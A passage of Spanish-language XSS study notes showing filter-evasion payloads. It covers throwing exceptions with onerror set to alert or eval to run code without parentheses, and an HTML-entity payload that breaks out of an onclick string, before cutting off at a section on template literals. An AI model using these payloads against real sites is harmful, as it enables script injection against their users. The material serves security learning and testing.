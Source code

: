 ```html
<script>
  throw onerror = alert, 'mensaje';
</script>
```

Aquí, se asigna `alert` a `onerror` y luego se lanza una excepción con `'mensaje'` como argumento.

## Manipulación de Excepciones con eval

Algunos navegadores anteponen un prefijo como `"Uncaught"` al mensaje de excepción. Para manipular eso:

```html
<script>
  {onerror = eval}
  throw '=alert(1337)';
</script>
```

- `eval` es asignado a `onerror`.
- Se lanza una excepción con un string que comienza con `=`, lo cual convierte el mensaje de error resultante en un código ejecutable.
- `eval` ejecuta `alert(1337);`.

## Conclusión

Estas técnicas demuestran cómo es posible evadir filtros de seguridad que bloquean paréntesis y puntos y coma,
aprovechando características del lenguaje JavaScript y comportamientos específicos de los navegadores para ejecutar código malicioso en ataques XSS.


---


## Haciendo uso de la codificación HTML

Si el contexto está en un atributo HTML como `onclick`, y la app filtra caracteres como `'`, se puede usar entidades HTML:

```html
<a href="#" onclick="... var input='controllable data here'; ...">
```

Payload codificado:
```html
&apos;-alert(document.domain)-&apos;
```

El navegador decodifica `&apos;` como comillas simples, permitiendo cerrar la cadena e inyectar código.

## XSS en literales de plantilla de JavaScript

Los literales de plantilla se definen con comillas invertidas `` ` `` y permiten interpolación de variables:
